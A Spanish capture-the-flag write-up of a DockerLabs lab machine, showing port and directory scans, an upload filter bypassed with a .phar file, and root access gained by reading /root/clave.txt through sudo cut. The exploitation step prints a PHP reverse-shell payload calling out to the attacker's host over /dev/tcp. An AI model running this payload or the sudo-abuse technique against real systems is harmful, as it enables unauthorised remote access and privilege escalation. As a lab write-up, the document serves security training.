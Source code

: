 #MAQUINA #DOCKERLABS #FACIL  
#ABUSO_SUBIDA_ARCHIVOS 
#BURPSUITE
<hr>

# RECONOCIMIENTO

Vamos a resolver **DockerLabs** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 11:33 CET
Initiating ARP Ping Scan at 11:33
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:33, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:33
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:33, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-26 11:33:31 CET for 0s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 11:34 CET
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000025s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Dockerlabs
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.42 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 11:34 CET
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** En el puerto **80** tenemos un directorio llamado **uploads**.
## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos lo siguiente con **gobuster**:

   ```bash

gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,js,txt,png,jpg 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              png,jpg,php,html,js,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 8235]
/scripts.js           (Status: 200) [Size: 919]
/upload.php           (Status: 200) [Size: 0]
/machine.php          (Status: 200) [Size: 1361]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```

**Conclusiones:** 
+ En el puerto **80** tenemos un directorio llamado **uploads**.
+ Hay un **upload.php**.
+ El **machine.php** tiene una subida de archivos que usa el **upload.php** -> solo acepta zip -> vamos a ver si podemos abusar de ello con **burpsuite**

# EXPLOTACION

Vamos a subir un php que nos otorgue una reverse shell. Para ello al subir el archivo interceptamos la petición y cambiamos la extensión a **.phar** y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**) :

   ```bash

POST /upload.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------221729423711292595004210029748
Content-Length: 424
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/machine.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------221729423711292595004210029748
Content-Disposition: form-data; name="file"; filename="wp.phar"
Content-Type: application/x-php

<?php

	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

-----------------------------221729423711292595004210029748
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------221729423711292595004210029748--

```

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
www-data@d9698e350246:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on d9698e350246:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on d9698e350246:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep

```

Vemos **cut y grep** con permisos SUDO y hay una nota en **/opt** :
   ```bash
www-data@d9698e350246:/tmp$ cd ../opt
www-data@d9698e350246:/opt$ ls -la
total 12
drwxr-xr-x 1 root root 4096 May 17  2024 .
drwxr-xr-x 1 root root 4096 Nov 26 11:33 ..
-rw-r--r-- 1 root root  129 May 17  2024 nota.txt
www-data@d9698e350246:/opt$ sudo cut -d "" -f1 /opt/nota.txt            
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.
www-data@d9698e350246:/opt$ sudo cut -d "" -f1 /root/clave.txt
dockerlabsmolamogollon123
www-data@d9698e350246:/opt$ su root
Password: 
root@d9698e350246:/opt# whoami
root

```

**YA ESTAMOS COMO ROOT.**